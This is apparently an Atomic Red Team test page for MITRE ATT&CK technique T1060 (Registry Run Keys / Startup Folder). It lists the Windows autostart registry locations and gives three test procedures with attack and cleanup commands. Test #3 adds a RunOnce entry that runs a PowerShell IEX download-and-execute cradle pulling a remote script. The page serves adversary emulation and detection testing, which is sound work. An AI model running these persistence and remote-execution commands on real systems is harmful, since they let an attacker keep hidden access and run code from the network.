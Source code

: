 # T1060 - Registry Run Keys / Startup Folder

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1060)

<blockquote>Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. (Citation: Microsoft Run Key) These programs will be executed under the context of the user and will have the account's associated permissions level.

The following run keys are created by default on Windows systems:

* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>

The <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx</code> is also available but is not
created by default on Windows Vista and newer. Registry run key entries can reference programs directly or list them as
a dependency. (Citation: Microsoft RunOnceEx APR 2018) For example, it is possible to load a DLL at logon using a "
Depend" key with RunOnceEx: <code>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "
C:\temp\evil[.]dll"</code> (Citation: Oddvar Moe RunOnceEx Mar 2018)

The following Registry keys can be used to set startup folder items for persistence:

* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>

The following Registry keys can control automatic startup of services during boot:

* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices</code>

Using policy settings to specify startup programs creates corresponding values in either of two Registry keys:

* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run</code>

The Winlogon key controls actions that occur when a user logs on to a computer running Windows 7. Most of these actions
are under the control of the operating system, but you can also add custom actions here. The <code>
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit</code> and <code>
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell</code> subkeys can automatically launch
programs.

Programs listed in the load value of the registry key <code>HKEY_CURRENT_USER\Software\Microsoft\Windows
NT\CurrentVersion\Windows</code> run when any user logs on.

By default, the multistring BootExecute value of the registry key <code>
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager</code> is set to autocheck autochk *. This value
causes Windows, at startup, to check the file-system integrity of the hard disks if the system has been shut down
abnormally. Adversaries can add other programs or processes to this registry value which will automatically launch at
boot.

Adversaries can use these configuration locations to execute malware, such as remote access tools, to maintain
persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036)
to make the Registry entries look as if they are associated with legitimate programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Reg Key Run](#atomic-test-1---reg-key-run)

- [Atomic Test #2 - Reg Key RunOnce](#atomic-test-2---reg-key-runonce)

- [Atomic Test #3 - PowerShell Registry RunOnce](#atomic-test-3---powershell-registry-runonce)

<br/>

## Atomic Test #1 - Reg Key Run

Run Key Persistence

Upon successful execution, cmd.exe will modify the registry by adding "Atomic Red Team" to the Run key. Output will be
via stdout.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Thing to Run | Path | C:&#92;Path&#92;AtomicRedTeam.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "#{command_to_execute}"
```

#### Cleanup Commands:

```cmd
REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Reg Key RunOnce

RunOnce Key Persistence.

Upon successful execution, cmd.exe will modify the registry to load AtomicRedTeam.dll to RunOnceEx. Output will be via
stdout.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:&#92;Path&#92;AtomicRedTeam.dll|

#### Attack Commands: Run with `command_prompt`!

```cmd
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "#{thing_to_execute}"
```

#### Cleanup Commands:

```cmd
REG DELETE HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #3 - PowerShell Registry RunOnce

RunOnce Key Persistence via PowerShell
Upon successful execution, a new entry will be added to the runonce item in the registry.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | powershell.exe|
| reg_key_path | Path to registry key to update | Path | HKLM:&#92;Software&#92;Microsoft&#92;Windows&#92;CurrentVersion&#92;RunOnce|

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
$RunOnceKey = "#{reg_key_path}"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path #{reg_key_path} -Name "NextRun" -Force -ErrorAction Ignore
```

<br/>

